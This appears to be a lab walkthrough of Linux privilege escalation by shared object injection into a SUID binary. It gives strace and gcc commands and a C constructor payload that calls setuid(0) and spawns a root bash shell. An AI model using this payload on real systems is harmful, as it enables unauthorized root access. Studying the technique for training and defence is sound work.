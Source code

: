Suppose we have a `/usr/local/bin/suid-so` SUID executable is vulnerable to shared object injection on our machine.

First, execute the file and note that currently it displays a progress bar before exiting:

```bash
/usr/local/bin/suid-so
```

Run `strace` on the file and search the output for open/access calls and for "no such file" errors:

```bash
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```

Note that the executable tries to load the /home/user/.config/libcalc.so shared object within our home directory, but it cannot be found.

Create the **.config** directory for the libcalc.so file:

```bash
mkdir /home/user/.config
```

Now we inject this c code in a file and we compile it into a shared object at the location the `suid-so` was looking for.

Here is the code to compile:

```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
	setuid(0);
	system("/bin/bash -p");
}
```

Now we compile:

```bash
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
```

and then we execute the `sudi-so`:

```bash
/usr/local/bin/suid-so
```